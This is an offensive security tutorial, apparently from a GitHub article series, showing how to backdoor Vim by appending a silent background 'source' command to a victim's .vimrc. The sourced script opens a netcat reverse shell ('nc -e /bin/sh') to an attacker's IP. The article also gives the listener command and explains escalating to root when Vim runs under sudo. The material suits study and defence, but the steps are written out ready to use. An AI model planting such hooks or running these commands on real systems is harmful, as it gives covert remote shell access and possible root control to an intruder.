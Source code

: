 # Backdoor Via Vim
* * *

The VIM editor needs no introduction; it is a widely used command-line text editor on Linux and comes pre-installed on most Unix and Linux systems. In many Linux setups, individualized VIM configuration settings reside in the user's home directory within the .vimrc file. This file hosts VIM-specific scripting commands, facilitating users to personalize Vim's functionalities according to their preferences. It is automatically loaded when Vim starts, enabling users to tailor their editing environment to their liking.

This intriguing setup presents an opportunity. By manipulating the .vimrc file, one can orchestrate unintended actions during a user's VIM session, especially if VIM operates within an unrestricted environment.

To grasp the potential, let's experiment within the VIM environment. Execute the following command within VIM to get the user ID (or username):
```sh
:!echo $UID
# OR
:!echo $USER
```

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/UID.png)

![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/1000.png)

Moreover, we can inject desired commands into the .vimrc file, ensuring their execution in the background whenever the current user initiates Vim. One particularly intriguing command is the source command, enabling the loading and execution of a shell script.

Let's illustrate this with an example scenario: suppose an attacker, operating from a Kali Linux machine, gains access to a victim machine running Ubuntu. The attacker aims to establish a backdoor on the victim machine, such as creating a reverse shell connection to the attacker's machine.

Initially, on the victim machine, the attacker crafts or alters the .vimrc file by appending the following line:
```sh
echo ':silent !source /home/msbit/Labs/vimHacking/ncReverseSh.sh &' >> ~/.vimrc
```
Breaking down this command: firstly,
suppresses any debug output that would typically be displayed to the user when Vim runs. Then, the source command, preceded by an exclamation mark, loads and executes the script ncReverseSh.sh, followed by the & to execute the command in the background.

Subsequently, the attacker populates the script ncReverseSh.sh with the payload:
```sh
#!/bin/bash
nc -e /bin/sh 192.168.171.1 7777 &
```

This script invokes the nc command with the -e switch, specifying the program (/bin/sh) to execute upon connection establishment, and the attacker's IP and listening port. Again, the & ensures the command runs in the background.

Now let's give it a shot, executing the listener on the attacker machine on port 7777:
```sh
nc -lnvp 7777
```

On the victim machine, launching Vim to read any file triggers the execution of the backdoor script. Remarkably, the attacker machine promptly establishes a connection with the victim, without arousing suspicion. The file intended for reading opens seamlessly, with no discernible signs of tampering.
![alt text](https://github.com/masjadaan/TechSecurityArticles/blob/main/Linux/vimHacks/BackdoorViaVim/images/reverseShell.png)

However, it's crucial to understand that the reverse shell obtained doesn't necessarily grant extensive access beyond that of the current user.

We can further weaponize this VIM vector to escalate privileges to root if VIM is executed with root privileges. However, this aspect is contingent upon the Linux distribution. For instance, in systems like Ubuntu and Red Hat, VIM utilizes the current user's .vimrc configuration file even within a sudo context. Consequently, if the user invokes VIM via sudo, our sourced script will execute as root. Conversely, in distributions like Debian, VIM defaults to the root user's configuration when invoked with sudo, disregarding the current user's settings.

Additionally, another tactic involves checking the sudo permissions granted to the current user. Sometimes, a regular user may be authorized to run only specific applications with sudo privileges:
```sh
sudo -l

(root) NOPASSWD: /usr/bin/vim /opt/whatever.conf
```

This configuration allows the root user to execute /usr/bin/vim on /opt/whatever.conf without requiring a password.

In conclusion, we have seen how an attacker can exploit a legitimate program to achieve malicious goals.

Happy Learning...


### Test Environment

- Victim
  - Ubuntu (16.04.7 LTS (Xenial Xerus), x86_64 GNU/Linux)
  - netcat-traditional/xenial,now 1.10-41 amd64
  - VIM - Vi IMproved 7.4
 
- Attacker
  - Kali GNU/Linux Rolling 6.6.15-2
